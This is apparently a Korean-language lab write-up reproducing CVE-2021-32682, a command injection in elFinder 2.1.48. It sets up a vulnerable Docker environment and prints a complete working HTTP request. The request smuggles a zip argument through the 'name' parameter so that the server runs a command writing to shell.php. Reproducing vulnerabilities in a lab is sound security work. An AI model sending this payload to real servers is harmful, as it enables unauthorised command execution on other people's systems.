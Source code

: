 # CVE-2021-32682

## elFinder ZIP 인수 삽입으로 인해 명령 삽입이 발생함

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자이다.

elFinder 2.1.48 및 이전 버전에서 인수 주입 취약점이 발견되었다. 이 취약점으로 인해 공격자는 최소한의 구성으로도 elFinder PHP 커넥터를 호스팅하는 서버에서 임의의 명령을 실행할 수 있다. 이 문제는 버전 2.1.59에서 패치되었다. 인증 없이 커넥터가 노출되지 않도록 주의해야 한다.

참고자료:
* https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerability
* https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
* https://xz.aliyun.com/t/10739

## 취약점 환경
elFinder 2.1.48을 시작하려면 아래 명령을 수행한다.

```
docker compose up -d
```

## Vulnerability Reproduce
먼저, 2개의 파일을 준비해야 한다. 아래와 같은 일반 텍스트 파일을 만든다.
<img src="https://github.com/mmingidan/WHS/blob/main/vulhub/make_txt.png?raw=true">


마우스 오른쪽 버튼 클릭 메뉴에서 이 파일을 ZIP 형식으로 보관하고 보관된 파일 이름을 아래와 같이 수정한다.
<img src="https://github.com/mmingidan/WHS/assets/102302841/db6212f2-a934-4a13-acc1-d506068da805">

txt 파일(a.txt)과 zip 파일(a.zip)이 모두 준비되었다.
<img src="https://github.com/mmingidan/WHS/blob/main/vulhub/file_fin.png?raw=true">



임의의 명령을 실행하기 위해서 아래와 같은 요청을 수행한다.
```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
```

이 요청에서는 __3가지 중요한 매개변수__를 볼 수 있다.

- `name`은 임의의 명령으로 `-TvTT=id>shell.php # a.zip`을 수정할 수 있다. => `id>shell.php`
- `targets[0]`,  `l1_MS50eHQ. l1`첫 번째 저장 볼륨을 의미하며 MS50eHQbase64로 인코딩된 문자열이다. => `a.txt`
- `targets[1]`,  `l1_Mi56aXA. l1`첫 번째 저장 볼륨을 의미하며 Mi56aXAbase64로 인코딩된 문자열이다. => `a.zip`
이 요청은 오류 메시지에 응답했지만 명령이 실행되어 shell.php다음 위치에 기록되었다. `http://your-ip:8080/files/shell.php`.
